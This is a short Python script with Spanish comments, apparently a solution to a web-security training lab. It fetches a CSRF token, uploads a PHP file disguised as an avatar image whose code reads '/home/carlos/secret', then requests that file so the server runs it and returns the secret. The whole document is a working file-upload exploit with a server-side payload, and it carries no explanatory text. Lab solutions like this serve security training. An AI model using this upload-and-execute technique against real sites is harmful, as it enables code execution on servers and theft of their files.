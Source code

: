 import requests
from bs4 import BeautifulSoup

# Definir la URL base y crear una sesión
LAB_URL = "https://example.com"
SESSION = requests.Session()

# Obtener token CSRF
def get_csrf_token(url):
    page = SESSION.get(url)
    soup = BeautifulSoup(page.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]
    return csrf_token

# Subir archivo PHP
def upload_file():
    csrf_token = get_csrf_token(f"{LAB_URL}/my-account?id=wiener")
    files = {"avatar": ("exploit.php", "<?php echo file_get_contents('/home/carlos/secret'); ?>")}
    data = {"csrf": csrf_token, "user": "wiener", "id": "wiener"}
    response = SESSION.post(f"{LAB_URL}/my-account/avatar?id=wiener", files=files, data=data)
    return response

# Ejecutar el archivo PHP y obtener el secreto
def get_secret():
    secret_response = SESSION.get(f"{LAB_URL}/files/avatars/exploit.php")
    return secret_response.text.strip()

# Resolver el lab
response = upload_file()
if "has been uploaded" in response.text:
    secret = get_secret()
    print(f"Secreto obtenido: {secret}")
